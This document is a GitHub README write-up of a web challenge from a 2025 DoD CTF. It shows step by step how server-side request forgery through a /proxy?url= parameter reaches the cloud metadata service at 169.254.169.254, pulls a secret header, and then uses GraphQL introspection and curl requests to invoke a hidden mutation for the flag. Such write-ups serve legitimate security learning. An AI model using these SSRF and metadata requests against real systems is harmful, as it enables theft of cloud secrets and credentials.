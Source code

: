 # DoD-Cyber-Sentinel-CTF---Web-Hard
https://github.com/axjuenemann/DoD-Cyber-Sentinel-CTF---Web-Hard/

The following challenge was part of the 2025 DoD Cyber Sentinel CTF, in which I placed 9th! This challenge was by far one of the most fun CTF challenges I have done, and combines multiple web exploits and topics along the adventure for the flag.

<ins>**The Great Juche Jaguar GraphQL Heist (Web Exploitation Hard)**</ins>

**Challenge:**

"Operative, Juche Jaguar’s intranet exposes a proxy at /proxy?url=

Abuse it to reach the internal metadata service and pull down the one‐time secret header. Armed with that header, you must then POST to the guarded GraphQL endpoint at /graphql.

The flag lives behind a mutation whose name is randomized on each startup—introspect the schema to discover it and invoke it to exfiltrate the flag. No README, no docs—discover everything yourself."

---

**Process:**



The challenge text itself reveals some key information about the web application and the initial attack vector. First, we are given that /proxy?url= is exposed on the web server, allowing us to craft a request to reach the internal metadata service as suggested by the challenge.

By looking at the IP address, I knew that this web app was likely a GCP-hosted service as it has a 34.x.x.x address. By doing some research, I discovered that the internal metadata services for these servers are hosted at the hostname metadata.google.internal (169.254.169.254)

Using our exposed /proxy?url= parameter, I attempted to create the following request in Burp Suite (curl could also be used):

```GET /proxy?url=http://metadata.google.internal/computeMetadata/v1/instance/attributes/```

Unfortunately, this request resulted in an invalid URL response. Since metadata.google.internal did not resolve (as expected in SSRF), I tried the direct IP 169.254.169.254:

```GET /proxy?url=http://169.254.169.254/computeMetadata/v1/instance/attributes/```

Thankfully, this worked and revealed two attribute names for me, “X-JJ-SECRET” and “ssh-keys”

---

Given that the challenge asks us to find the one-time secret header, we can conclude that “X-JJ-SECRET” is our target. With one more GET request, we can grab the attribute:

```GET /proxy?url=http://169.254.169.254/computeMetadata/v1/instance/attributes/X-JJ-SECRET```

Which returns the value “S3NT1N3L”

---

Now that I had the one-time secret header, it was time to make a POST request to the guarded GraphQL endpoint at /graphql. The challenge states that the flag lives behind a mutation whose name is randomized on each startup, and thus, we need to consult the schema. I achieved this using a simple POST request with curl:

```
curl -X POST "http://34.86.186.68:8080/graphql" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```

Which returned: eyJkYXRhIjp7Il9fc2NoZW1hIjp7Im11dGF0aW9uVHlwZSI6eyJmaWVsZHMiOlt7Im5hbWUiOiJtMzA5ZTUzMzYifV19fX19   

A quick base64 decode reveals the name of the target mutation "m309e5336"
![image](https://github.com/user-attachments/assets/dba3e1e3-9600-4324-acbf-155bdc03bf79)

---

Now that I have the name for the mutation, one more request is required:

```
curl -X POST "http://34.86.186.68:8080/graphql" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  -d '{"query":"mutation { m309e5336 }"}'         
```

Which returned:
eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMxe3NzdDFfcjNtMHQzX2MwZDNfeDNjfSJ9fQ==

Using base64, we can obtain our flag:
![image](https://github.com/user-attachments/assets/50d571b6-700b-49d9-a3dd-a07c5973d69e)

